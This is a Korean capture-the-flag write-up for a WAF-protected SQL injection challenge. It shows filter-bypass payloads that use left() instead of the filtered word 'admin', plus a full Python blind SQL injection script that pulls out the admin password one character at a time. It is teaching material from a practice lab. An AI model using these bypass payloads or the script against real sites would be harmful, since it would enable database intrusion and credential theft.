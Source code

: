 우선 ```id=' or id='admin'#``` 을 입력을 해보니 당연히 필터링 됩니다. 우선 waf 특성상 **admin**이라는 단어가 필터링이 되어있을 확률이 높다고 생각해서 다음과 같이 왼쪽 2글자만 판단하도록 바꿔줬습니다.

```id='|| left(id,2)='ad'#```

![image](https://user-images.githubusercontent.com/33647663/160248929-1047db66-7520-4445-a10d-4aab63e71bb6.png)

이제 admin 데이터에 대해서 pw를 얻어내기 위한 blind sql injection 구문을 작성해야 하는데, 일반적인 구문은 다음과 같습니다.

```
id=|| left(id,2)='ad' and ascii(substr(pw,1,1))=97#
```

우선 너무 뻔한 패턴인 ascii(substr()) 구문은 사용하지 않고, 이번에도 left를 사용해 봅니다.

![image](https://user-images.githubusercontent.com/33647663/160249056-913c0872-588b-4173-b1ed-a73cfa77a4c1.png)

한번에 성공했습니다. 왼쪽 글자를 한 글자씩 찾으며 blind sql injection을 수행해 줍니다.

전체 코드는 다음과 같습니다.

```python
import string
from urllib import response
import requests
url = "https://modsec.rubiya.kr/chall/godzilla_799f2ae774c76c0bfd8429b8d5692918.php"
cookies = {"PHPSESSID" : "595dl7ejl1io50mt9bhg0dbmpk"}
params = {"id" : None}

for i in range(30):
    payload = "'||left(id,4)='admi'&&length(pw)={}#".format(i)
    params["id"] = payload
    print(params)
    response = requests.get(url,params=params,cookies=cookies)
    if("Forbidden" in response.text):
        print("Forbidden")
        print(payload)
        break
    elif("Hello admin" in response.text):
        print("find the pw length",i)
        break

flag = ''
for i in range(1,9):
    for j in string.printable:
        payload = "'||left(id,4)='admi'&&left(pw,{})='{}'#".format(i,flag + j)
        params["id"] = payload
        print(params)
        response = requests.get(url,params=params,cookies=cookies)
        if("Forbidden" in response.text):
            print("Forbidden")
            print(payload)
            break
        elif("Hello admin" in response.text):
            flag = flag + j
            print("find the pw ",flag)
            break
```
